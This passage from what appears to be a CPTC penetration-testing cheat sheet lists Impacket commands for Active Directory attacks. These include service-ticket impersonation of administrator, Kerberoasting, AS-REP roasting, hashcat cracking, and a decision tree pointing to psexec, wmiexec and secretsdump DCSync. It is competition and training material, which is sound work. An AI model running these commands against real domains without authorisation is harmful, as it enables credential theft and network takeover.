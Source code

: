 **CPTC Usage:** Usually skip (requires coercion setup, time-consuming)

---

### getST.py - Get Service Ticket

**When:** Silver ticket attack or S4U2Self abuse

```bash
# Request service ticket
impacket-getST -spn 'cifs/target.corp.local' -impersonate administrator 'CORP/user:pass'
```

**CPTC:** Rarely needed, focus on faster techniques

---

## Quick Decision Tree

```
Do you have credentials?
├─ YES (password or hash)
│   ├─ Need shell? → psexec.py / wmiexec.py
│   ├─ Need more creds? → secretsdump.py
│   ├─ Admin on DC? → secretsdump.py -just-dc (DCSync)
│   └─ Just domain user? → GetUserSPNs.py (Kerberoast)
│
└─ NO credentials
    └─ Have usernames? → GetNPUsers.py (AS-REP roast)
```

---

## CPTC Workflow Examples

### Scenario 1: Just Got Domain User Creds

```bash
# 1. Kerberoast (1 min)
impacket-GetUserSPNs -request -dc-ip 10.10.10.10 'CORP/user:Password123' -outputfile spns.txt

# 2. Start cracking in background
hashcat -m 13100 spns.txt rockyou.txt &

# 3. AS-REP roast (1 min)
impacket-GetNPUsers CORP/ -dc-ip 10.10.10.10 -usersfile common-users.txt -format hashcat -outputfile asrep.txt

# 4. Check BloodHound/Certipy while hashes crack
```

---

### Scenario 2: Admin on Workstation
